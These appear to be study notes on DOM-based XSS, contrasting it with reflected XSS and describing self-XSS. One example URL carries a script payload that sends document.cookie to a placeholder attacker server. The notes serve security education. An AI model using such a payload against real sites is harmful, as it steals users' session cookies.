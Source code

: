 
---
- #### **DOM-based XSS is similar to reflected XSS**, 
	except that in DOM, the user input never leaves the user’s browser. 
	the application takes in user input, processes it on the victim’s browser, returns it to the user
---
- #### **The Document Object Model (DOM)**
	- DOM-based XSS targets a web page’s DOM directly: 
	- it attacks the client’s local copy of the web page instead of going through the server.
	- Attackers are able to attack the DOM when a page takes user-supplied data and dynamically alters the DOM based on that input. 
	- JavaScript libraries like jQuery are prone to DOM-based XSS since they dynamically alter DOM elements.
---
- #### **reflected XSS vs DOM-based XSS**
	As in reflected XSS, attackers submit DOM-based XSS payloads via the victim’s user input. 
	Unlike reflected XSS, a DOM-based XSS script **doesn’t require server involvement**, 
	because it executes when user input modifies the source code of page in the browser directly. 
	
	The XSS script is never sent to the server, so the HTTP response from the server won’t change.
	The URL parameter isn’t submitted to the server. **Instead**, it’s used locally, by the user’s browser, to construct a web page by using a client-side script. 
	- if website doesn’t validate the user-submitted locale parameter, an attacker can trick users into visiting a URL like this one: https://example.com?locale=<script>location='http://attacker_server_ip/?c='+document.cookie;</script>
	- The site will embed the payload on the user’s web page, and the victim’s browser will execute the malicious script. DOM XSS may sound a lot like reflected XSS at first. 
	- **The Difference** is that the reflected XSS payload gets sent to the server and returned to the user’s browser within an HTTP response. 
	  **On the other hand**, the DOM XSS payload is injected into a page because of client-side code rendering user input in an insecure manner. 
	  **Although** the results of the two attacks are similar, the processes of testing for them and protecting against them are different.
---
- ### Self-XSS
	require victims to input a malicious payload themselves. 
	- attackers must trick users into doing much more than simply viewing a page or browsing to a particular URL, If you’ve ever seen social media posts or text messages telling you to paste a piece of code into your browser to “do something cool,” it was probably attack code aimed at tricking you into launching self-XSS against yourself



